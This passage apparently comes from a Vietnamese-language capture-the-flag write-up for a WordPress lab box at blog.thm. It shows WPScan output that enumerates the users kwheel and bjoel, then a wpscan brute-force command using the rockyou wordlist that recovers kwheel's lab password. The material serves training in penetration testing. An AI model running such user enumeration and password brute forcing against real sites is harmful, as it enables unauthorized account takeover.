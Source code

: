 ```
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Thu Aug 13 20:24:34 2020
[+] Requests Done: 51
[+] Cached Requests: 8
[+] Data Sent: 11.419 KB
[+] Data Received: 385.417 KB
[+] Memory used: 150.793 MB
[+] Elapsed time: 00:00:07
```
Chúng ta biết rằng phiên bản WordPress đã lỗi thời (phiên bản **5.0**) và chúng ta đã tìm thấy **2 người dùng**:

- **kwheel**
- **bjoel**

### Attack password
Hãy lưu người dùng vào user.txt và thử dùng brute--force:
```
$ wpscan -U users.txt -P /usr/share/wordlists/rockyou.txt --url http://blog.thm

[REDACTED]

[SUCCESS] - kwheel / cutiepie1  
```
# Root flag
Lý do lấy root flag trước vì user flag lại nằm trong thư mục có đặc quyền mới xem được nội dunng nên ta đi từ root flag trước
